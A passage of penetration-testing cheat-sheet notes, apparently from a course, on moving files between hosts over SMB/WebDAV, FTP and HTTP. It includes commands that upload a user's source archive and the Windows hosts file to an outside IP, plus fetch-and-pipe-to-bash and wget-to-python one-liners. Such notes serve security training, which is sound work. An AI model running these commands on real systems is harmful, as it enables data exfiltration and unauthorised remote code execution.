 ```shell
echo <base64> | base64 -d -w 0 > hosts
```
## SMB Uploads
#### Configuring WebDav Server
```shell
sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous 
```
#### Connecting to the Webdav Share
```cmd
dir \\192.168.49.128\DavWWWRoot
```
#### Uploading Files using SMB
```cmd
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
```
## FTP Uploads
```shell
sudo python3 -m pyftpdlib --port 21 --write
```
#### PowerShell Upload File
```powershell
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```
#### Create a Command File for the FTP Client to Upload a File
```cmd
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
```ftp
open 192.168.49.128
USER anonymous
PUT c:\windows\system32\drivers\etc\hosts
bye
```
# Linux File Transfer Methods
## Web Downloads with Wget and cURL
#### Download a File Using wget
```shell
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```
#### Download a File Using cURL
```shell
curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```
#### Fileless Download with cURL
```shell
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```
#### Fileless Download with wget
```shell
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```